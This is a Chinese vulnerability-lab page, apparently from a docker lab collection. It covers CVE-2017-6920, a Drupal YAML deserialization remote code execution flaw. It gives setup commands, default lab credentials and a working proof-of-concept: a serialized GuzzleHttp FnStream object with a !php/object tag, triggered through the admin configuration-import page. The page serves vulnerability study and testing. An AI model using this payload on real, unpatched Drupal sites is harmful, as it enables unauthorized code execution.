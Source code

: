 ```yaml
---
layout: post
title: "Drupal PECL YAML parser 远程代码执行漏洞(CVE-2017-6920)"
date: 2017-06-29 23:57:35 +0800
image: '/assets/img/'
description: 'Drupal Core的YAML解析器处理不当所导致的一个远程代码执行漏洞。'
main-class: 'hole'
color: '#B31917'
tags:
- Drupal
- RCE
categories:
- Drupal
twitter_text: 'Drupal Core的YAML解析器处理不当所导致的一个远程代码执行漏洞。'
introduction: 'Drupal Core的YAML解析器处理不当所导致的一个远程代码执行漏洞。'
---
```


### 漏洞信息

Drupal是使用PHP语言编写的开源内容管理框架（CMF），它由内容管理系统（CMS）和PHP开发框架（Framework）共同构成。Drupal Core的YAML解析器处理不当所导致的一个远程代码执行漏洞。

### 影响版本

Drupal < 8.3.4

### 镜像信息

类型 | 用户名 | 密码
:-:|:-:|:-:
Mysql | root | root
/user/login | admin | admin123

### 获取环境:

1. 拉取镜像到本地
 ```
$ docker pull medicean/vulapps:d_drupal_1
 ```

2. 启动环境
 ```
$ docker run -d -p 8000:80 medicean/vulapps:d_drupal_1
 ```
 > `-p 8000:80` 前面的 8000 代表物理机的端口，可随意指定。 

 访问 http://127.0.0.1:8000 看到 Drupal 主界面代表启动成功


### POC

> 假如目标地址为： http://127.0.0.1:8000/

1.序列化一个`GuzzleHttp\Psr7\FnStream`类, 并给该序列化字符串加上yaml的`!php/object` tag(注意一定要转义):

```
!php/object "O:24:\"GuzzleHttp\\Psr7\\FnStream\":2:{s:33:\"\0GuzzleHttp\\Psr7\\FnStream\0methods\";a:1:{s:5:\"close\";s:7:\"phpinfo\";}s:9:\"_fn_close\";s:7:\"phpinfo\";}"
```

2.登录一个管理员账号，访问如下url: 

```
http://127.0.0.1:8000/admin/config/development/configuration/single/import
```

然后按下图所示填写表单：

![](https://github.com/Medicean/VulApps/raw/master/d/drupal/1/poc-1.png)

3.点击 `import` 后，触发：

![](https://github.com/Medicean/VulApps/raw/master/d/drupal/1/poc-2.png)

### Exp

> 待补充，欢迎分享

构造方法可参考：[CVE-2017-6920:Drupal远程代码执行漏洞分析及POC构造](http://paper.seebug.org/334/)

### 相关链接

* [Drupal Core - Multiple Vulnerabilities - SA-CORE-2017-003](https://www.drupal.org/SA-CORE-2017-003)
* [CVE-2017-6920:Drupal远程代码执行漏洞分析及POC构造](http://paper.seebug.org/334/)
